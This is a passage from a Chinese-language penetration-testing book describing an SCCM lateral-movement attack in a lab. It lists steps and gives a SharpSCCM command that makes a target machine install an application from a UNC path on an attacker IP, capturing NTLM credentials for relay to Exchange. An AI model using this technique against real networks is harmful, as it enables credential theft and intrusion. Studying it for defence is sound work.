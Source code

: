 图 10.15 – WIN10 机器是我们的目标设备

攻击包括以下步骤：

1.  创建一个新的设备集合。

1.  将目标机器添加到此集合中。

1.  创建一个带有 UNC 路径指向攻击者机器的应用程序。

1.  让该集合中的目标设备安装新应用程序。

以下命令将自动执行上述步骤：

```
SharpSCCM.exe exec -rid 16777219 -r 192.168.56.100
```

攻击执行过程如下：

![图 10.16 – 成功的攻击执行](img/B18964_10_16.jpg)

图 10.16 – 成功的攻击执行

经过一段时间，我们捕获了 NTLM 响应，如下图所示：

![图 10.17 – 成功的中继到 Exchange 服务器](img/B18964_10_17.jpg)
